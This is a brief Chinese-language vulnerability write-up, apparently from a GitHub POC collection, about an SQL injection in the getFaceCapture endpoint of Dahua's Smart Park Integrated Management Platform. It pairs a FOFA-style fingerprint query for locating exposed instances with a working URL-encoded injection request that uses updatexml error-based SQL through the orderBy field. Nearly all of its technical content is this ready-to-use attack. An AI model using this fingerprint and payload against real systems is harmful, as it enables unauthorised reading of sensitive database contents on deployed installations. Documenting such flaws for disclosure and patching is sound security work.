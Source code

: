 # 

# 大华 智慧园区综合管理平台 getFaceCapture SQL注入漏洞

## 漏洞描述

大华 智慧园区综合管理平台 getFaceCapture 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意SQL语句，获取数据库敏感信息

## 漏洞影响

智慧园区综合管理平台

## 网络测绘

```
app="dahua-智慧园区综合管理平台"
```

## 漏洞复现

![image-20230828144644472](images/image-20230828144644472.png)

请求POC

```
/portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(123)),0x7e),1)--%22%7D/extend/%7B%7D
```

![image-20230828145938818](images/image-20230828145938818.png)

